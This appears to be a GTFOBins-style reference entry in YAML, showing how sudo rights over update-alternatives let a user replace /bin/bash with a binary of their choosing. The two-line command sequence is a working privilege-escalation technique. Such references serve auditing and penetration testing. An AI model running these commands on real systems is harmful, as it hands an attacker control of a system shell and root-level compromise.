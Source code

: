 ```yaml
---
functions:
  sudo:
    - description: Replace existing binary with symlink pointing to user supplied binary
      code: |
        cp file_to_replace_bash /tmp/bash
        sudo update-alternatives --force --install /bin/bash bash /tmp/bash 1
---
```

